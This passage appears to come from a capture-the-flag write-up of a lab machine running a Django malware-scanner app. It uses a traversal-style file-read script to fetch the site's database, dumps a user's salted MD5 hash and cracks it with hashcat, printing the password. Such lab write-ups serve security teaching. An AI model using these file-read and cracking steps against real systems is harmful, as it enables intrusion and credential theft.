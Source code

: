 ```
gin
```

Looking for possible interesting files on the system there is a `malscanner.db` in the webroot of the source code.

```
$ ls malscanner
malscanner     manage.py         sandbox  static     uploads       viewer
malscanner.db  requirements.txt  scanner  templates  uwsgi_params
```

The end of the `settings.py` django configuration file leaks the root of the web application so we know where to look for the database.

```
FILE_PATH = "/var/www/malscanner/uploads"
SBX_PATH = "/var/www/malscanner/sandbox"
```

Using our script we can retrieve the database and opening it there is a hash for the user clarence inside which also is a user on the os.

```
$ python3 readfile.py '/proc/1/fd/3/../../../../../../var/www/malscanner/malscanner.db'
```

```
$ sqlite3 _proc_1_fd_3_.._.._.._.._.._.._var_www_malscanner_malscanner.db
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
auth_group                  auth_user_user_permissions
auth_group_permissions      django_admin_log
auth_permission             django_content_type
auth_user                   django_migrations
auth_user_groups            django_session
sqlite> select * from auth_user;
1|md5$kL2cLcK2yhbp3za4w3752m$9886e17b091eb5ccdc39e436128141cf|2021-09-14 18:39:55.237074|1|clarence|||1|1|2021-09-14 18:36:46.227819|
```

Using hashcat and rockyou we are able to crack it quite quickly.

```
$ hashcat -m 20 -a 0 -O hash rockyou.txt
hashcat (v6.2.5) starting

...[snip]...

886e17b091eb5ccdc39e436128141cf:kL2cLcK2yhbp3za4w3752m:onedayyoufeellikecrying

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 20 (md5($salt.$pass))
Hash.Target......: 9886e17b091eb5ccdc39e436128141cf:kL2cLcK2yhbp3za4w3752m
Time.Started.....: Tue Feb  1 00:53:57 2022 (0 secs)
Time.Estimated...: Tue Feb  1 00:53:57 2022 (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 15539.8 kH/s (2.49ms) @ Accel:8192 Loops:1 Thr:32 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 5243993/14344388 (36.56%)
Rejected.........: 1113/5243993 (0.02%)
Restore.Point....: 2622142/14344388 (18.28%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: yayavega -> n11575y
```